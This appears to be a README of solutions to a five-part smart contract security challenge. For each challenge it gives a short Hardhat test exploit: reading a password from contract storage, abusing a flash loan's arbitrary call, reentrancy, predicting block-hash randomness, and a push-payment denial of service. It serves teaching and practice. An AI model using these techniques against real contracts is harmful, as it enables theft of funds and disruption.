 # Smart Contract Security Challenge
---
## Challenge 1

### No Privacy

To exploit the AlicesLock contract, you can follow these steps in the no-privacy.js test file:

#### *Steps to Exploit*

- Access Contract Storage: The password is stored in the contract's storage, so you can read it directly.

- Unlock the Contract: Use the unlock function with the password obtained from storage.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
it("Exploit", async function () {
    // Get the storage slot for the password
    const passwordSlot = await ethers.provider.getStorageAt(this.lock.address, 1);

    // Unlock the contract using the password from storage
    await this.lock.connect(bob).unlock(passwordSlot);
});
```

#### *Explanation*
- `ethers.provider.getStorageAt(this.lock.address, 1)`: This reads the password from the second storage slot (index 1) of the AlicesLock contract.

- `this.lock.connect(bob).unlock(passwordSlot)`: Bob uses the retrieved password to call the unlock function.

---

## Challenge 2

### Do Not Trust

To exploit the  Do Trust Lender pool, you can follow these steps in the do-not-trust.js test file:

#### *Steps to Exploit*

- `DoTrustLender.sol` contract implements a flash loan mechanism that allows borrowers to execute arbitrary functions after borrowing tokens. It inherits from `ReentrancyGuard` to prevent reentrancy attacks on its functions.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const DoNotTrustBobFactory = await ethers.getContractFactory(
      "DoNotTrustBob",
      alice
    );
    this.exploit = await DoNotTrustBobFactory.deploy();
    await this.exploit
      .connect(bob)
      .attack(this.pool.address, this.token.address);
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusToken` and `DoTrustLender` contracts. Transfers 1 million CPT tokens to the lending pool.

- **Exploit**: Bob deploys a contract `DoNotTrustBob` that exploits the `flashLoan` function of `DoTrustLender`. The attack involves borrowing all tokens from the pool and executing a function that transfers them to Bob's account.

---

## Challenge 3

### Re-enter

To exploit the  simple lending pool that allows its users to deposit ETH, you can follow these steps in the reenter.js test file:

#### *Steps to Exploit*

- The smart contract `Reenter.sol` allows users to deposit ETH, withdraw ETH, and execute flash loans. It has a reentrancy vulnerability in the `withdraw` function.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE */
    const bobFactory = await ethers.getContractFactory("ReentersBob", alice);
    this.bobsContract = await bobFactory.deploy(this.pool.address);
    this.bobsContract.connect(bob).attack();
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the ReenterPool contract with an initial balance of 1000 ETH.

- **Exploit**: Bob deploys a contract ReentersBob that utilizes a reentrancy attack via the withdraw function of ReenterPool. The attack allows Bob's contract to repeatedly withdraw ETH from Alice's pool before updating the balance.

---

## Challenge 4

### Head or Tail

The HeadOrTail contract has a vulnerability where the randomness is derived from global variables, making it predictable. you can follow these steps in the head-or-tails.js test file:

#### *Steps to Exploit*

- The `HeadOrTail.sol` contract implements a coin flip game where the outcome is determined based on the previous block's hash. This method of generating randomness is predictable and can be exploited.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */
    const Attacker = await ethers.getContractFactory("BobsGuess", bob);

    this.attacker = await Attacker.deploy();
    for (let i = 0; i < 5; i++) {
      this.attacker.connect(bob).cheat(this.headOrTale.address);
    }
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the HeadOrTail contract. Ensures the initial wins count is 0.

- **Exploit**: Bob deploys a contract that predicts the outcome of the coin flip by calculating the block hash and determining the result before calling the flip function.

---

## Challenge 5

### Mount Calyptus

Whoever sends the CalyptusHill smart contract an amount of ether larger than the current bribe replaces the previous climber, and the replaced climber gets paid the new bribe. Alice wants to be at the top at all costs, sending an equal bribe as soon as anyone claims the top spot. The goal is to help Bob stop Alice from reclaiming the atTheTop position.

#### *Steps to Exploit*

- The `CalyptusHill` contract allows anyone to replace the current top position by sending a larger bribe.

- it uses a push pattern to transfer ether to the previous top climber, which can be exploited to cause a `denial of service (DoS) attack`.

#### *Exploit Code*
Here's how you can write the exploit in the Exploit section:

```javascript
 it("Exploit", async function () {
    /** CODE YOUR EXPLOIT HERE  */

    const HillAttack = await ethers.getContractFactory("HillAttack", bob);
    this.hillAttack = await HillAttack.deploy();
    this.hillAttack.connect(bob).attack(this.calyptusHill.address, {
      value: ethers.utils.parseEther("1"),
    });
  });
```

#### *Explanation*
- **Setup**: Initializes Alice and Bob as signers and deploys the `CalyptusHill` contract with an initial bribe of 1 ether. Ensures the initial bribe is set correctly.

- **Exploit**: Bob deploys a contract that exploits the push pattern vulnerability by causing a denial of service. This is done by making Bob's contract unable to receive ether, thus preventing Alice from reclaiming the top position.

---